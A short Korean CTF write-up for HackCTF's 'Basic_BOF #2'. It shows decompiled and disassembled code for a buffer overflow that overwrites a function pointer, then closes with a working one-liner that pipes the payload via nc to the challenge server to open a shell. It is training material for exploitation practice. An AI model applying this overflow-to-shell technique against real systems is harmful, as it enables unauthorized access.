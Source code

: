 ```yaml
---


---
```


<h1 id="hackctfbasic_bof-2">HackCTF:Basic_BOF #2</h1>
<h2 id="section">2019-08-01</h2>
<p><code>file bof_basic2</code> 로 파일을 확인해 본다.</p>
<pre><code>bof_basic2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=620fa5ad29722b0b2f66ce8f949ec66aa57b46f3, not stripped
</code></pre>
<p><em>IDA-Hexlay</em></p>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup;
  fgets(&amp;s, 133, stdin);
  v5();
  return 0;
}
</code></pre>
<p>함수 <code>fgets()</code>로 들어가는 변수의 주소는 ebp-0x8c (ebp-140)이다. 140byte지만 133byte의 제한이 걸려있다.</p>
<pre><code>0x080484f0 &lt;+35&gt;:	push   eax
0x080484f1 &lt;+36&gt;:	push   0x85
0x080484f6 &lt;+41&gt;:	lea    eax,[ebp-0x8c]
0x080484fc &lt;+47&gt;:	push   eax
0x080484fd &lt;+48&gt;:	call   0x8048350 &lt;fgets@plt&gt;
0x08048502 &lt;+53&gt;:	add    esp,0x10
0x08048505 &lt;+56&gt;:	mov    eax,DWORD PTR [ebp-0xc]
0x08048508 &lt;+59&gt;:	call   eax
</code></pre>
<p>프로그램에 system("/bin/bash") 를 호출하는 <code>shell()</code> 이라는 함수가 있다는 것을 IDA로 확인했다.</p>
<pre><code>(python -c 'print "A" * 128 + "\x9b\x84\x04\x08"'; cat) | nc ctf.j0n9hyun.xyz 3001
</code></pre>

